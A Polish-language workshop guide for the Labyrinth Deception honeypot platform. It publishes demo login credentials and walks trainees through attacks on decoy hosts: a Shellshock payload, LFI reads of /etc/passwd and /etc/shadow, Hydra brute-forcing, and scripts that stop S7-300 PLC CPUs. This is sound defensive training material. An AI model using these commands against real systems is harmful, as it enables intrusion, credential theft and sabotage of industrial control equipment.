 # Witamy na warsztatach platformy Labyrinth Deception
Wszystko, czego możesz potrzebować podczas warsztatów, jest dostępne w tym repozytorium.

## Uzyskiwanie dostępu

Na początek przejdź do naszego stanowiska testowego:

1. **Poświadczenia do AdminVM** - możesz użyć dowolnej przeglądarki internetowej:
```
URL: https://demo.labyrinth.tech/
Username: ats
Password: lFcGa0y7!_37
```
> [!NOTE]
> Zachęcamy do tworzenia własnych użytkowników tutaj, przechodząc do Settings->Users.
2. **Poświadczenia do atakującego hosta** - z tego hosta będziesz przeprowadzać ataki. Użyj SSH i następujących
Poświadczeń: 
```
Host: warrior.labyrinth.tech
Username: user
Password: K4H*91kYg/j*
```

## Terminologia, która będzie dzisiaj używana
Ze względu na fakt, że dziś używamy platformy Labyrinth Deception jako przykładu platformy cyber decepcji, ma ona swoje własne terminy, które będą dziś aktywnie wykorzystywane::

1.	**Point (Punkt)** = wabik sieciowy, przynęta, spreparowane usługi sieciowe.
> [!NOTE]
> Punkt NIE JEST oddzielną maszyną wirtualną.

2.	**Honeynet** = segment sieci, w którym działają Punkty. Służy do określenia sieci VLAN, w której mają działać Punkty.

3.	**Seeder	Tasks** = wabiki plikowe, nawigacja okruszkowa używana do logicznego łączenia prawdziwej i spreparowanej infrastruktury.

4.	**Seeder Agent** = program, który rozprowadza Seeder Tasks na rzeczywistych hostach.
5. **AdminVM (konsola zarządzania)** = główny moduł kontrolujący system.
6. **WorkerVM (węzeł roboczy)** = węzeł, na którym uruchomione są Punkty.

## Transkrypcja poleceń
Ponadto udostępniamy transkrypcję wszystkich poleceń, aby ułatwić korzystanie z nich. Nawet jeśli przegapiłeś jakąkolwiek część prezentacji, możesz skorzystać z tych notatek, aby kontynuować ćwiczenia.

> [!IMPORTANT]
> **\<any data>** wskazuje, że należy wkleić własne dane, które są wymienione wewnątrz nawiasów.
>
> **[options]** wskazuje, że ta część (lub części) polecenia jest opcjonalna i może zostać pominięta. Wybór wielu opcji jest wyświetlany za pomocą / (ukośnika).

#### Przypadek 1: wykrywanie skanowania sieci
Można użyć kilku narzędzi. Na przykład [nmap](https://nmap.org/):
```
nmap [-sS/sT/sW/sM/sU/sF/sX] ​<Point IP>
```
#### Przypadek 2: łączenie się z hostem przy użyciu danych z wabików plikowych (breadcrumbs)

1. Przejdź do Seeder Agents -> Tasks
2. Wybierz ssh_txt_credentials lub ssh_config z listy
3. Kliknij w trzykropek, a następnie Details
4. Użyj tych poświadczeń, aby się zalogować:
```
ssh <user>@<Point IP>
```
#### Przypadek 3: oszustwa internetowe z wykorzystaniem UWP
UWP to skrót od Universal Web Point. Jest to typ wabika opracowany przez zespół Labyrinth Security Solutions, który pozwala emulować wszystko, co ma interfejs sieciowy w ciągu zaledwie kilku sekund.

W tym przypadku będziemy próbowali wykorzystać [Shellshock](https://blog.cloudflare.com/inside-shellshock).
```
curl -k -H "User-Agent: () { :; }; /bin/bash cat /etc/passwd" http://<UWP IP>/
```

#### Przypadek 4: interakcja z brokerem MQTT
Subskrybuj wszystkie tematy:
```
mosquitto_sub -h <MQTT broker IP> -t "#" [-u <username> -P <password>]
```
Opublikuj temat:
```
mosquitto_pub -h <Point IP> -t <topic name> [-u <username> -P <password>] -m 'My Message'
```

#### Przypadek 5: S7comm Malformed PDU

W tym przypadku istnieje [skrypt](https://github.com/ad-labyrinth/ATS2023/blob/main/scripts/S7_Malformed_PDU.py) dostępny w tym repozytorium - wystarczy go uruchomić:

```
cd S7_malformed_PDU
python3 S7_malformed_PDU.py -a <Point IP>
```
Lub:
```
cd S7_malformed_PDU
python3 S7_malformed_PDU.py --plc_ip_addr <Point IP>
```

#### [Zaawansowany] Przypadek 6: ponowne użycie poświadczeń

1. Znajdź serwer WWW
```
sudo nmap -sS -sC -p80,443 <Honeynet IP> -vvv
```
2. Eksploruj znaleziony serwer WWW

Wykonaj LFI
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```
Lub:
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/shadow 
```
Wyszukaj dodatkową ścieżkę internetową:
```
dirsearch --wordlists=/home/user/wordlists/directories.txt -u https://<Point IP>/ 
```
Odnośnik: [dirsearch](https://github.com/maurosoria/dirsearch)
3. Skonfiguruj listę słów
```
cd wordlists
nano brute.dict
```
4. Wykonaj bruteforce SSH
```
hydra -L brute.dict -P passwords.dict <IP of the ssh host> ssh -t 4 
```
5. Zaloguj się do hosta
```
ssh <user>@<Point IP>
```
6. Ponowne użycie poświadczeń do połączenia z innym hostem
```
ssh <user>@warrior.labyrinth.tech
```

#### [Zaawansowany] Przypadek 7: atakowanie sieci przemysłowych

1. Przeszukanie sieci w poszukiwaniu serwera FTP
```
sudo nmap -sS -sC -p21 -T4 <Honeynet subnet> -vvv 
```
2. Połącz się z serwerem FTP

Spróbuj połączyć się anonimowo:
```
ftp <FTP IP address>
```
Wykonaj bruteforce FTP:
```
cd wordlists
nmap --script ftp-brute -p21 <FTP IP address> --script-args userdb=users.dict,passdb=passwords.dict
```
3. Sprawdź znaleziony plik
```
ls -la
less <file>
```
4. Wykonać żądanie sterowania CPU S7comm
```
cd S7_scripts
python2 s7300stop.py <S7-300 IP>
```
Ponadto można spróbować uruchomić komunikat startowy CPU:
```
python2 s7300cpustart.py <S7-300 IP>
```

Odnośnik: [exploits source](https://github.com/hackerhouse-opensource/exploits)

## Informacje o platformie Labyrinth 
Labyrinth to zespół doświadczonych inżynierów cyberbezpieczeństwa i testerów penetracyjnych, który specjalizuje się w opracowywaniu rozwiązań do wczesnego wykrywania i zapobiegania cyberzagrożeniom.

Techniki decepcji zapewniają atakującym zasadniczą przewagę nad obrońcami, którzy nie są w stanie przewidzieć kolejnego ruchu napastników. **NASZĄ WIZJĄ** jest przesunięcie układu sił na korzyść obrońców.

**NASZĄ MISJĄ** jest dostarczenie wszelkiego rodzaju organizacjom prostego i wydajnego narzędzia do jak najwcześniejszego wykrywania napastników wewnątrz sieci korporacyjnej.

Więcej informacji o platformie: https://labyrinth.tech/ 
